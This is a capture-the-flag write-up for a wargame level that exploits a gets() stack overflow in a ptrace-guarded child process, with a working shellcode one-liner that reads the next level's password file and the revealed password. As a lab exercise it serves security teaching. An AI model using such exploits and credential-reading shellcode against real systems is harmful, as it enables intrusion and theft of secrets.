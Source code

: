 # Buffer Overflow under execve protection

see source.c

## Analysis

This was a rough one.
First thing after disassembling we instantly notice: the program is using 'gets' on a buffer allocated on the stack, so we can do a easy buffer overflow + modify eip to change wherever we want.
Problem: the buffer will only be modified in the child process and the parent is checking for execve syscall (ptrace /w PTRACE_PEEKUSER). We tried to bypass this protection by doing multiple things like killing the parent (but the program is using prctl on the child so the child terminate instantly after the parent death), or jump on another fork hoping for better result (Didn't manage to get something). The first payload with execve on gdb/strace were working easily but that was because we we're tracing the program so the executable couldn't did it at the same moment.

## Payload

Finally, after hours of trying, we manage to write our payload in nasm that isn't calling execve at all, pseudo-code:
```
fd =open("/home/users/level05/.pass", O_RDONLY);
ret = read(fd, buffer, 41);
write(1, buffer, ret);
exit();
```

()[http://faculty.nps.edu/cseagle/assembly/sys_call.html]
The code of the payload is available in resources/payload.s and was compiling like this:
```
nasm -felf32 payload.s && ld -m elf_i386 payload.o -o a.out
```
Then we just xxd and get what we needed, and do a little payload with a jump at the end (at the address of eip, that jump on the payload):

```
level04@OverRide:~$ (python -c "print('\x31\xc9\xf7\xe1\x6a\x05\x58\x51\x6a\x73\x68\x2e\x70\x61\x73\x68\x6c\x30\x35\x2f\x68\x6c\x65\x76\x65\x68\x65\x72\x73\x2f\x68\x65\x2f\x75\x73\x68\x2f\x68\x6f\x6d\x89\xe3\xcd\x80\x50\x5b\x6a\x29\x5a\x8d\x0c\x24\x42\xcd\x80\x50\x5a\x6a\x01\x5b\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80' + 'A' * 86 + '\x60\xd6\xff\xff')") | /home/users/level04/level04 
Give me some shellcode, k
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
child is exiting...
```
